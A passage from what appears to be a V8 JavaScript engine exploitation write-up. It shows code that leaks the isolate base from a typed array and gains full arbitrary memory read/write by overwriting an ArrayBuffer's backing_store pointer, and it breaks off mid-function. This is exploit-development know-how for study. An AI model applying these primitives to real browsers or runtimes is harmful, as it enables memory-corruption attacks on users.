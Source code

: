 We can test if this works properly by reading and writing to a random offset (e.g. 0):

![](14.png)


## Leaking the isolate base (not needed, but useful)

Pointer compression is not applied everywhere; typed arrays (e.g. `Uint32Array`s) still store the full pointer:

![](15.png)

The pointer is split between `base` and `external`. In memory, the `external` pointer is stored at offset `0x30` from 
the array:

![](16.png)

Given that we already have an arbitrary read on the heap, we can just read the value:

```js
const typedArr = new Uint32Array([0x41, 0x41, 0x41]);
const typedArrAddr = offsetof(typedArr);
const isolateBase = heapArbRead(typedArrAddr + 0x30n) & 0xffffffff00000000n;
console.log(`Isolate base: ${isolateBase.toString(16)}`);

function fullAddr(addr) {
    return isolateBase + addr;
}
```

## Full arbitrary read/write (not needed, but useful)

Another interesting object from JavaScript is `ArrayBuffer`: a byte array that you can read from or write to using
a `DataView`.

This is really useful for exploitation purposes, because it also stores a full pointer (pointing to outside of the
`v8` heap):

![](17.png)

In the debugger it's stored at offset `0x24`:

![](18.png)

We already have a `v8` heap arbitrary write, so if we overwrite `backing_store` with any address we can read from it
using `getBigUint64` (careful: the bytes will be in reverse order) or write to it using `setBigUint64`. Of course, we
can also write in smaller increments.

```js
const buf = new ArrayBuffer(10240000);
const bufView = new DataView(buf);
const bufAddr = offsetof(buf);

function reverseBytes(val) {
    let hex = val.toString(16);
    if (hex.length % 2 !== 0) {
        hex = "0" + hex;
    }
    const bytes = [];
    for (let i = 0; i < hex.length; i += 2) {
        bytes.push(hex.slice(i, i + 2));
    } 
```